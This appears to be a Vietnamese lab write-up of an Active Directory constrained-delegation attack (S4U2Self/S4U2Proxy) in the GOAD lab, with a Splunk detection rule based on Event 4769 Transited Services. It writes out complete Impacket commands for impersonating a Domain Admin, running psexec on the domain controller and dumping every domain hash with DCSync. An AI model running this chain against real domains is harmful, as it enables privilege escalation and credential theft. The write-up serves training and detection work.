



# Case 3 — Constrained Delegation with Protocol Transition (T1550.003)

> Part 3 của series recap lab GOAD-Light + Splunk. Xem [Part 0 — Overview](00-overview-lab-setup.md), [Part 1 — Kerberoasting](01-case1-kerberoasting.md), [Part 2 — AS-REP Roasting](02-case2-asrep-roasting.md).
>
> Đây là case dài nhất trong series — không chỉ vì kỹ thuật phức tạp hơn, mà vì phần lớn thời gian nằm ở việc **debug một lỗi tooling khó hiểu** trước khi chứng minh được impact. Phần đó được giữ lại gần như đầy đủ vì bản thân quá trình debug có giá trị học thuật ngang với kỹ thuật tấn công.

## Bối cảnh

Xuất phát điểm: attacker đã có 1 credential domain hợp lệ nhưng tầm thường — `jon.snow` (mật khẩu `iknownothing`, "chiến lợi phẩm" giả định từ việc crack hash Kerberoasting ở [Case 1](01-case1-kerberoasting.md)). `jon.snow` không phải Domain Admin, chưa vào được DC. Giai đoạn này là **privilege escalation**: từ 1 tài khoản quèn, tìm đường leo lên quyền cao hơn.

## Bước 1 — Recon: dò delegation toàn domain

Delegation là cơ chế cho phép 1 service **hành động thay mặt user** (VD: web server nhận request rồi tự đi lấy dữ liệu trên file server "với danh nghĩa" user đó). Cấu hình sai có thể khiến attacker chiếm được tài khoản delegate giả danh được bất kỳ ai — kể cả Domain Admin.

```
findDelegation.py north.sevenkingdoms.local/jon.snow:iknownothing -dc-ip 192.168.56.11
```

```
AccountName   AccountType  DelegationType                       DelegationRightsTo                         SPN Exists
------------  -----------  -----------------------------------  -----------------------------------------  ----------
jon.snow      Person       Constrained w/ Protocol Transition   CIFS/winterfell                            No
jon.snow      Person       Constrained w/ Protocol Transition   CIFS/winterfell.north.sevenkingdoms.local  Yes
CASTELBLACK$  Computer     Constrained w/o Protocol Transition  HTTP/winterfell                            No
CASTELBLACK$  Computer     Constrained w/o Protocol Transition  HTTP/winterfell.north.sevenkingdoms.local  Yes
WINTERFELL$   Computer     Unconstrained                        N/A                                        Yes
```

### Phân tích 3 lựa chọn

| Tài khoản | Loại delegation | Khai thác được không? |
|---|---|---|
| `WINTERFELL$` (chính DC02) | Unconstrained | ❌ Cần đã kiểm soát được máy đó trước — vô nghĩa, vì nếu đã chiếm DC thì không cần tấn công nữa |
| `CASTELBLACK$` | Constrained **KHÔNG** protocol transition | ❌ Cần credential/hash của computer account (không có); và "không protocol transition" nghĩa là chỉ delegate được cho user **đã thật sự** xác thực Kerberos tới nó trước |
| `jon.snow` | Constrained **CÓ** protocol transition | ✅ Có credential; "protocol transition" cho phép dùng S4U2Self để giả danh **bất kỳ user nào, kể cả chưa từng đăng nhập** |

→ Đường tấn công: dùng `jon.snow` giả danh 1 Domain Admin để truy cập `CIFS/winterfell` (file share của DC).

### Xác định mục tiêu giả danh — ai là Domain Admin?

```
ldapsearch -x -H ldap://192.168.56.11 -D "jon.snow@north.sevenkingdoms.local" -w iknownothing \
  -b "DC=north,DC=sevenkingdoms,DC=local" "(cn=Domain Admins)" member
```

```
dn: CN=Domain Admins,CN=Users,DC=north,DC=sevenkingdoms,DC=local
member: CN=eddard.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local
member: CN=Administrator,CN=Users,DC=north,DC=sevenkingdoms,DC=local
```

Chọn `eddard.stark` thay vì `Administrator` built-in, vì tài khoản built-in ở nhiều môi trường hay bị gắn cờ **Protected Users**/"account is sensitive and cannot be delegated" — nếu dính, vé S4U2Self trả về sẽ không forwardable và bước sau sẽ thất bại. `eddard.stark` là 1 DA "người dùng" bình thường, khả năng delegate được cao hơn.

## Bước 2 — Khai thác: S4U2Self + S4U2Proxy

```
getST.py -spn CIFS/winterfell.north.sevenkingdoms.local -impersonate eddard.stark -dc-ip 192.168.56.11 \
  north.sevenkingdoms.local/jon.snow:iknownothing
```

```
[*] Getting TGT for user
[*] Impersonating eddard.stark
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in eddard.stark@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

Cơ chế 2 pha:
1. **S4U2Self** — `jon.snow` xin KDC 1 vé tới **chính nó**, nhưng "làm như" `eddard.stark` là người yêu cầu. Vì `jon.snow` có cờ `TrustedToAuthForDelegation` (protocol transition), KDC đồng ý dù `eddard.stark` chưa hề đăng nhập — và vé trả về **forwardable**.
2. **S4U2Proxy** — `jon.snow` cầm vé forwardable đó, đổi thành vé cho `eddard.stark` tới `CIFS/winterfell` (KDC kiểm tra `msDS-AllowedToDelegateTo` của `jon.snow`, thấy khớp → cấp).

Vé được lưu vào file `.ccache` — nhưng **có vé chưa phải là impact**. Bước tiếp theo mới là phần khó thật sự.

## Bước 3 — Sự cố: `STATUS_MORE_PROCESSING_REQUIRED` 

Dùng vé để đọc thật ổ đĩa của DC:

```
export KRB5CCNAME=/home/socadmin/eddard.stark@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
smbclient.py -k -no-pass north.sevenkingdoms.local/eddard.stark@winterfell.north.sevenkingdoms.local
```

```
[-] SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP)
    cannot be disposed of because the I/O operation is not complete.)
```

Vé Kerberos hợp lệ (đã qua kiểm tra 3 lượt trao đổi với KDC), nhưng bước bắt tay SMB cuối cùng gãy. Bảng dưới là toàn bộ quá trình loại trừ giả thuyết, theo đúng thứ tự đã thử:

| # | Giả thuyết | Cách kiểm tra | Kết quả |
|---|---|---|---|
| 1 | Bug riêng của `smbclient.py` | Đổi sang NetExec (`nxc`) | ❌ Lỗi y hệt → loại |
| 2 | Bug phiên bản Impacket 0.13.1 | Dựng venv, hạ xuống Impacket 0.12.0 | ❌ Vẫn lỗi (sau khi vượt qua 2 lỗi phụ: thiếu `pkg_resources`, `setuptools` quá mới) → loại |
| 3 | Vé RC4 yếu bị DC từ chối | `describeTicket.py` xem etype | Thấy `rc4_hmac` — nghi vấn mạnh, giữ lại |
| 4 | Ép vé sang AES256 để test | Tính khoá AES bằng `string_to_key`, chạy lại `getST -aesKey` | ❌ Vé service vẫn ra RC4 (etype do phía `WINTERFELL$` quyết định, không phải khoá TGT của `jon.snow`) → không kết luận được lúc này |
| 5 | Lệch đồng hồ (clock skew) | So `Start Time` của vé với giờ máy | ❌ Khớp gần tuyệt đối → loại |
| 6 | DC cần khởi động lại | `vagrant reload GOAD-Light-DC02` | ❌ Không đổi gì → loại |
| 7 | SMB tổng thể có hỏng? | Test NTLM thuần: `nxc smb ... -u jon.snow -p iknownothing` | ✅ NTLM chạy ngon → SMB server khoẻ, vấn đề chỉ ở khâu Kerberos |
| 8 | Kerberos-SMB hỏng với MỌI vé hay chỉ vé S4U? | Test vé TGT thường (`getTGT.py`) | ❌ Cũng lỗi y hệt → không phải riêng vé S4U, mà toàn bộ Kerberos-SMB |
| 9 | Thiếu DNS (lộ ra khi test #8) | Thêm domain vào `/etc/hosts` | Sửa được lỗi DNS phụ, nhưng lỗi chính vẫn còn |
| 10 | Stack Kerberos khác (Samba thay vì Impacket) | `smbclient` của Samba | ❌ Lỗi khác hẳn (client không dựng nổi context từ ccache vì ccache chỉ có service ticket, không có TGT) → không kết luận được |

Sau khi vét cạn hướng debug từ phía client, quyết định dừng đoán mò, chuyển sang research có hệ thống — đưa toàn bộ context (mọi giả thuyết đã loại trừ) cho 2 công cụ AI research độc lập.

### Bước ngoặt: tìm ra nguồn — chính tác giả GOAD

Cả hai công cụ research hội tụ về cùng 1 nguồn: tác giả GOAD (**mayfly277**), trong bài viết **["GOAD - part 1 - reconnaissance and scan"](https://mayfly277.github.io/posts/GOADv2-pwning_part1/)** của loạt hướng dẫn pwning GOAD, từng gặp y hệt lỗi này và ghi chú:

> "Tôi không biết vì sao Kerberos không chạy trên `winterfell` với FQDN đầy đủ, nhưng dùng `winterfell` (tên ngắn) thay vì `winterfell.north.sevenkingdoms.local` thì lại ổn."

Một quirk đã biết, riêng của lab `winterfell` — nhưng tác giả gốc cũng không biết **tại sao**.

### Áp dụng fix

```
getST.py -spn CIFS/winterfell -impersonate eddard.stark -dc-ip 192.168.56.11 \
  north.sevenkingdoms.local/jon.snow:iknownothing
```

`STATUS_MORE_PROCESSING_REQUIRED` biến mất hoàn toàn. Lưu ý phụ: `nxc --use-kcache` cần có TGT trong cache để hoạt động, mà ccache của đòn S4U chỉ chứa service ticket → `nxc` báo `KDC_ERR_PREAUTH_FAILED`; phải dùng đúng công cụ Impacket gốc (`smbclient.py`, `psexec.py`, `secretsdump.py`) vì chúng dùng được service ticket "trần".

## Truy tìm nguyên nhân gốc — trả lời câu hỏi mà tác giả GOAD bỏ ngỏ

So sánh 2 vé bằng `describeTicket.py`:

```
$ describeTicket.py eddard.stark@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache | grep -i etype
[*]   Encryption type : aes256_cts_hmac_sha1_96 (etype 18)
```

| SPN dùng khi `getST` | Etype của vé service | Kết quả |
|---|---|---|
| `CIFS/winterfell.north.sevenkingdoms.local` (FQDN) | RC4-HMAC (etype 23) | ❌ `STATUS_MORE_PROCESSING_REQUIRED` |
| `CIFS/winterfell` (tên ngắn) | AES256 (etype 18) | ✅ Chạy được |

**Kết luận:** nguyên nhân thật không phải "SMB signing" (giả thuyết ban đầu, sai) mà là **vé RC4 khiến quá trình bắt tay SMB Kerberos của Impacket nghẹn**. Việc đổi sang SPN dạng tên ngắn chỉ là một cách *tình cờ, không cần sửa code* để ép KDC cấp vé AES thay vì RC4 — nó không sửa trực tiếp nguyên nhân, mà né được nó.

Điều này khớp với một issue đang mở trên GitHub của Impacket:

**[fortra/impacket#1573 — SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED](https://github.com/fortra/impacket/issues/1573)**

Trong đó, người dùng `r3l4x0` chỉ ra nguyên nhân: Impacket advertise danh sách encryption type với **RC4 đứng đầu** (`impacket/krb5/kerberosv5.py`), một số DC/cấu hình hiện đại từ chối/không xử tốt việc này. Fix đề xuất: patch code để đẩy `cipher.enctype` thật lên đầu danh sách thay vì RC4.

→ Đây **cùng gốc rễ** với vấn đề gặp trong lab, chỉ khác cách kích hoạt: họ sửa bằng patch code, còn ở đây phát hiện ra một workaround không cần sửa code (đổi SPN form). Bản thân việc "vì sao FQDN SPN ra RC4 còn short-name SPN lại ra AES256 cho cùng 1 account" là hành vi chọn etype của KDC dựa trên đăng ký SPN/salt/`msDS-SupportedEncryptionTypes` — có cơ chế nhưng chưa document rõ ràng ở mức "tại sao 2 dạng SPN khác nhau lại ra 2 etype khác nhau", nên phần này giữ nguyên là quan sát thực nghiệm, không khẳng định quá mức.

### Đây có phải phát hiện 1 lỗ hổng/cơ chế MỚI không?

Impacket fail với vé RC4 qua SMB (đã có trong #1573), SPN-form ảnh hưởng etype (hệ quả của cơ chế Kerberos đã document một phần), quirk "dùng tên ngắn" (đã được chính tác giả GOAD ghi lại). Giá trị thật của phần điều tra này là **kết nối 3 mảnh rời rạc lại với nhau bằng bằng chứng cụ thể** (`describeTicket.py` cho thấy chính xác etype khác nhau), qua đó trả lời được cái "tại sao" mà tác giả GOAD từng bỏ ngỏ — đây là synthesis/verification có giá trị, không phải phát hiện cơ chế mới.

## Bước 4 — Chứng minh impact thật

### Đọc ổ đĩa của Domain Controller

```
smbclient.py -k -no-pass north.sevenkingdoms.local/eddard.stark@winterfell
```

```
# shares
Share Name     Type            Comment
-------------------------------------------------------
ADMIN$         DISK (SPECIAL)  Remote Admin
C$             DISK (SPECIAL)  Default share
IPC$           IPC (SPECIAL)   Remote IPC
NETLOGON       DISK            Logon server share
SYSVOL         DISK            Logon server share
# use C$
# ls
drw-rw-rw-          0  ...  $Recycle.Bin
-rw-rw-rw-        657  ...  dns_log.txt
drw-rw-rw-          0  ...  Program Files
drw-rw-rw-          0  ...  Users
drw-rw-rw-          0  ...  Windows
# cd Users
# ls
drw-rw-rw-          0  ...  administrator
drw-rw-rw-          0  ...  eddard.stark
drw-rw-rw-          0  ...  robb.stark
drw-rw-rw-          0  ...  vagrant
```



Đọc trọn ổ hệ thống của Domain Controller **với tư cách Domain Admin**, mà không hề biết mật khẩu thật của `eddard.stark`.

### Thực thi lệnh trên DC (psexec)

```
psexec.py -k -no-pass north.sevenkingdoms.local/eddard.stark@winterfell
```

Upload file, tạo và khởi động 1 service trên DC thành công (phần cleanup/shell tương tác bị Defender chặn, nhưng việc tạo+chạy service đã đủ xác nhận quyền admin thực thi mã trên DC).

### DCSync — dump toàn bộ mật khẩu domain

```
secretsdump.py -k -no-pass north.sevenkingdoms.local/eddard.stark@winterfell -just-dc
```



Vì `eddard.stark` là Domain Admin (có quyền `Replicating Directory Changes`/`Replicating Directory Changes All`), vé giả danh nó cho phép thực hiện **DCSync** — giả làm 1 Domain Controller khác để "đồng bộ" toàn bộ NTLM hash và Kerberos key của **mọi tài khoản trong domain, bao gồm cả `krbtgt`**. Đây là mức độ compromise cao nhất có thể đạt trong 1 domain: cầm được `krbtgt` nghĩa là có thể tự chế Golden Ticket, giả danh bất kỳ ai vĩnh viễn cho tới khi mật khẩu `krbtgt` được đổi (2 lần, theo khuyến nghị).

## Bước 5 — Phát hiện: `Transited Services` trong Event 4769

Chữ ký của S4U2Proxy nằm ở trường **`Transited Services`** trong Event 4769 — bình thường trường này **luôn rỗng**; nó chỉ có giá trị khi vé được cấp qua chuỗi delegation.

**Lưu ý:** Splunk **không** tự tách trường này thành field riêng (không có trong "Interesting Fields" mặc định của TA-Windows) — phải tự trích bằng `rex`.

```spl
index=* sourcetype=WinEventLog:Security EventCode=4769
| rex "Transited Services:\s+(?<Transited_Services>\S+)"
| search Transited_Services!="-"
| table _time host Account_Name Service_Name Transited_Services Client_Address Ticket_Encryption_Type
```

Giải thích `rex`: `Transited Services:` là mỏ neo tìm đúng vị trí trong text thô; `\s+` nuốt khoảng trắng/tab sau dấu `:`; `(?<Transited_Services>\S+)` bắt cụm ký tự không-khoảng-trắng tiếp theo và lưu vào field mới tên `Transited_Services`. Dòng `search Transited_Services!="-"` sau đó lọc bỏ mọi event có trường này rỗng (dấu gạch `-` = baseline bình thường).

Kết quả: 5 sự kiện khớp, toàn bộ đều từ `Client_Address = ::ffff:192.168.56.50` (máy attacker), field `Transited_Services` mang giá trị `jon.snow@NORTH.SEVENKINGDOMS.LOCAL` — DC "tự khai" vé cấp cho `eddard.stark` đã đi vòng qua `jon.snow`.

| _time | Account_Name | Service_Name | Transited_Services | Ticket_Encryption_Type |
|---|---|---|---|---|
| 2026-07-23 08:55:56 | jon.snow | WINTERFELL$ | jon.snow@NORTH... | 0x12 |
| 2026-07-22 12:29:43 | jon.snow | jon.snow | jon.snow@NORTH... | 0x17 |
| 2026-07-22 12:09:17 | jon.snow | jon.snow | jon.snow@NORTH... | 0x17 |
| 2026-07-22 13:56:22 | jon.snow | WINTERFELL$ | jon.snow@NORTH... | 0x12 |
| 2026-07-22 13:39:17 | jon.snow | jon.snow | jon.snow@NORTH... | 0x17 |

(`Service_Name=jon.snow` = pha S4U2Self; `Service_Name=WINTERFELL$` = pha S4U2Proxy — đích thật. Lưu ý: `Account_Name` ghi nhận là `jon.snow` — tài khoản **đứng ra xin vé** — chứ không phải `eddard.stark` bị giả danh; đây là hành vi log bình thường của Windows, không phải lỗi.)

## Alert

| Thiết lập | Giá trị |
|---|---|
| Tên | `Constrained Delegation Abuse - S4U2Proxy (Transited Services)` |
| Alert Type | Scheduled, Cron `*/5 * * * *` |
| Time Range | Last 15 minutes |
| Trigger Condition | Number of Results > 0 |
| Action | Add to Triggered Alerts, Severity **High** |



Đã kiểm chứng bắn thật lúc `2026-07-23 10:10:01 +07`.

### Lưu ý khi đưa rule này vào môi trường thật

Khác với Kerberoasting/AS-REP (gần như luôn là dấu hiệu tấn công), **constrained delegation là một tính năng AD hợp lệ** — nhiều ứng dụng thật (web server → SQL server) dùng đúng nghĩa. Rule này áp trực tiếp vào production sẽ sinh false positive với các delegation hợp pháp đã biết. Cách xử lý thực tế: xây allowlist cho các cặp (account delegate → service đích) đã xác nhận hợp lệ, ví dụ:

```spl
... | search Transited_Services!="-" NOT (Transited_Services="web_svc*" Service_Name="MSSQL*")
```

Trong lab này không có delegation hợp lệ nào nên mọi `Transited_Services` xuất hiện đều là tấn công, không cần allowlist.

## Tóm tắt kỹ thuật

| Mục | Chi tiết |
|---|---|
| ATT&CK | [T1550.003 — Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/) (S4U2Proxy abuse) |
| Điều kiện cần | Credential của 1 tài khoản có Constrained Delegation + Protocol Transition |
| Log sinh ra | EventCode 4769 (không phải 4768) |
| Chữ ký phát hiện | `Transited Services` khác rỗng — cần `rex` để trích vì Splunk không parse sẵn |
| Impact tối đa đạt được | DCSync — dump toàn bộ hash domain, bao gồm `krbtgt` |
| Bài học phụ | Phân biệt "SMB signing" (sai) vs "vé RC4 làm Impacket nghẹn" (đúng) khi debug lỗi tooling Kerberos; timezone hiển thị sai ≠ clock drift thật |
